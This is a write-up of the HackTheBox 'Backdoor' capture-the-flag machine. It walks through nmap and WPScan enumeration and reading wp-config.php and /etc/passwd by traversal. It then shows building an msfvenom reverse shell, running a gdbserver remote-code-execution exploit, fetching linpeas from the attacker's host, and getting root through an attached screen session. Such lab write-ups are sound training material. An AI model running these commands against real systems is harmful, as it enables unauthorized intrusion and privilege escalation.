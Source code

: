 Welcome to the another CTF challenge from HackTheBox. What we can learn from the machine. 
* Linux enumeration
* Directory traversal
* Exploiting unprotected screen session

Let's start with nmap scan.

## Nmap Scan Result
```bash
┌──(defalt@kali)-[~]
└─$ nmap -sC -sV -p- -Pn -A 10.10.11.125
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-20 17:32 PDT
Nmap scan report for 10.10.11.125
Host is up (0.051s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b4:de:43:38:46:57:db:4c:21:3b:69:f3:db:3c:62:88 (RSA)
|   256 aa:c9:fc:21:0f:3e:f4:ec:6b:35:70:26:22:53:ef:66 (ECDSA)
|_  256 d2:8b:e4:ec:07:61:aa:ca:f8:ec:1c:f8:8c:c1:f6:e1 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-generator: WordPress 5.8.1
|_http-title: Backdoor &#8211; Real-Life
1337/tcp open  waste?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 48.89 seconds
```
Looks like poer 22,80,1337(gdb_server) open. Let's see what we got on website.

![](web.png)

We can see webpage make by wordpress. So let's run wpscan and check what we can get.
## WPscan Results
I found below information those kinda imporatant to us.
```bash
[+] WordPress version 5.8.1 identified (Insecure, released on 2021-09-09).
 | Found By: Rss Generator (Passive Detection)
 |  - http://10.10.11.125/index.php/feed/, <generator>https://wordpress.org/?v=5.8.1</generator>
 |  - http://10.10.11.125/index.php/comments/feed/, <generator>https://wordpress.org/?v=5.8.1</generator>

[+] WordPress theme in use: twentyseventeen
 | Location: http://10.10.11.125/wp-content/themes/twentyseventeen/
 | Last Updated: 2022-01-25T00:00:00.000Z
 | Readme: http://10.10.11.125/wp-content/themes/twentyseventeen/readme.txt
 | [!] The version is out of date, the latest version is 2.9
 | Style URL: http://10.10.11.125/wp-content/themes/twentyseventeen/style.css?ver=20201208
 | Style Name: Twenty Seventeen
 | Style URI: https://wordpress.org/themes/twentyseventeen/
 | Description: Twenty Seventeen brings your site to life with header video and immersive featured images. With a fo...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 2.8 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://10.10.11.125/wp-content/themes/twentyseventeen/style.css?ver=20201208, Match: 'Version: 2.8'

[+] admin
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://10.10.11.125/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)
```
My self try to exploit wordpress and got a **wp-config.php** and **/etc/passwd/** files. But nothing juicy happen.

## Reverse shell with Metasploit to Access gdb_server

### What is GDB ?
* GDB stands for GNU Project Debugger and is a debugging tool which helps you poke around inside your
programs while they are executing and also allows you to see what exactly happens when your program
crashes.

### What is gdbserver ?
* gdbserver is a program that allows you to run GDB on a different machine than the one that is running the
program being debugged.

### RCE on gdbserver

* Googling for any exploits available for gdbserver we find this Remote Code Execution vulnerability in
gdbserver version 9.2. We are uncertain about the version of gdbserver running on the server, but let’s
just give this exploit a try.

Link to exploit : https://www.exploit-db.com/exploits/50539

## Exploit in action
First you need to create a reverse shell using **msfvenom**. 
```bash
┌──(defalt@kali)-[~/Documents/htb/backdoor]
└─$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.2 LPORT=4444 PrependFork=true -o rev.bin
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 106 bytes
Saved as: rev.bin
```                                                             
It saved as rev.bin. You can use whatever name if you like. Let's exploit this badboy!! First make netcat listener for port 4444.

```
┌──(defalt@kali)-[~/Documents/htb/backdoor]
└─$ python3 exploit.py 10.10.11.125:1337 rev.bin
[+] Connected to target. Preparing exploit
[+] Found x64 arch
[+] Sending payload
[*] Pwned!! Check your listener

┌──(defalt@kali)-[~]
└─$ nc -lnvp 4444             
listening on [any] 4444 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.11.125] 46174
/usr/bin/script -qc /bin/bash /dev/null
user@Backdoor:/home/user$ ls
ls
user.txt
```

## Getting root aceess
Let's run linpeas in our victim's machine.
```bash
┌──(defalt@kali)-[~/Documents/htb]
└─$ python -m http.server                                                                           2 ⨯
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.125 - - [20/Apr/2022 18:28:01] "GET /linpeas.sh HTTP/1.1" 200 -

user@Backdoor:/home/user$ wget 10.10.14.2:8000/linpeas.sh
wget 10.10.14.2:8000/linpeas.sh
--2022-04-21 01:28:01--  http://10.10.14.2:8000/linpeas.sh
Connecting to 10.10.14.2:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 134168 (131K) [text/x-sh]
Saving to: 'linpeas.sh'

linpeas.sh          100%[===================>] 131.02K   822KB/s    in 0.2s    

2022-04-21 01:28:01 (822 KB/s) - 'linpeas.sh' saved [134168/134168]

user@Backdoor:/home/user$ chmod +x linpeas.sh
chmod +x linpeas.sh

user@Backdoor:/home/user$ bash linpeas.sh
bash linpeas.sh
```
![](suid.png)

Looks like user have a suid permission to screen. Let's search this about gtfobins.

https://gtfobins.github.io/gtfobins/screen/

Again googling for privilege escalation through the screen we have an exploit available for GNU Screen 4.5.0 and our’s is 4.08 so it’s of no use. So, I tried to learn about screen command and the ‘-x’ option is very useful here. Basically, with ‘-x’ option, we can get attached to a session that is already attached elsewhere. Now in this case a session is already running as root so, we can get attached to that session for getting root access.

First, we have to set the terminal emulator to Linux by using export TERM=xterm. You can check your TERM setting by running echo $TERM. Now just run the screen command as shown.


https://serverfault.com/questions/720357/ubuntu-allow-users-access-to-roots-screen-command-also-restrict-which-screens

## Pwned !!
```bash
user@Backdoor:/home/user$ /usr/bin/screen -x root/root
/usr/bin/screen -x root/root
Please set a terminal type.
user@Backdoor:/home/user$ export TERM=xterm
export TERM=xterm
user@Backdoor:/home/user$ /usr/bin/screen -x root/root
root@Backdoor:~# ls                                                             
ls                                                                              
root.txt                                                                        
root@Backdoor:~# wc root.txt                                                    
wc root.txt                                                                     
 1  1 33 root.txt                                                               
root@Backdoor:~# 
```

Thx For Reading,
Have a Nice day!!